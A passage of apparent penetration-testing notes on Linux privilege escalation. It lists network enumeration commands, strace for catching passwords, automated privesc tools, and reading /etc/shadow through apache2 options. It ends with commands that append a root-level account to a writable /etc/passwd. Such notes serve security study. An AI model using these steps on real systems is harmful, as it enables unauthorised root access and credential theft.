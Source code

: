     -  `ifconfig` or `ip a`
    - `ss -ntplu` and `ss -anp`
    - `netstat -ano`
        - `netstat -a` - shows all listening ports and already established connections
        - `netstat -at` and `netstat -au` - for above but TCP/UDP ports only
        - `netstat -l` - list ports in 'listening' mode which are open and ready to accept incoming connections
        - `netstat -p` - PID info
        - `netstat -s` - usage statistics
        - `netstat -i` - interface statistics
        - `netstat -n` - do not resolve names (quicker)
        - `netstat -o` - display timers
    - `route` or `routel` or `netstat -rn`
    - `ipstables` (requires `sudo`)
        1. Can try viewing `/etc/iptables` if no permissions
        2. Can also search for file generated by `iptables-save` with `grep`
    - `ip route`
    - `arp -a` - get ARP table to check other targets the host has been talking to, cross-referebce against SSH private keys?
    - `strace ping -c 1 <TARGET>` - view stack traces for a program which might have a password or token.
    - `lpstat` - printer info
21. Shells
    - `/etc/shells`

and the most privilege escalatory command of them all, to switch user:
- `su - <USER>`


### Automation

- UNIX-PRIVESC-CHECK http://pentestmonkey.net/tools/audit/unix-privesc-check
- LinEnum https://github.com/rebootuser/LinEnum
- linPEAS https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS


## Application Functions

Some applications have functions which can be exploited. E.g. apache2 has an option to support alternative server configuration files. Trying to specify a sensitive file like `/etc/shadow` will bring up an error message but expose first line of file.


## Writable Files

If an important file is writable, we can abuse for privelege escalation:
```
victim@hacked:~$ openssl passwd <PASSWORD>
victim@hacked:~$ echo "root2:<PASSWORD_HASH>:root:/root:/bin/bash" >> /etc/passwd
victim@hacked:~$ su root2
```

because if enabled for backwards compatibility, the hash in the password hash field takes precendence over /etc/shadow.
